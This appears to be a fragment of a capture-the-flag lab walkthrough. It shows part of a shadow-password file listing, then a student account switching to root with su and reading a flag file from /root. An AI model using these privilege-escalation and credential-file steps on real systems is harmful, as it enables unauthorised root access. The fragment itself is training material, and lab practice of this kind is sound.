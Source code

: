 ```
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17797::::::
```

```
student@attackdefense:~$ su
Password:
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
root@attackdefense:/home/student# whoami
root
```

```
root@attackdefense:/home/student# find / -name "*flag*"
/root/flag
root@attackdefense:/home/student# cat /root/flag
e62ab67ddff744d60cbb6232feaefc4d
```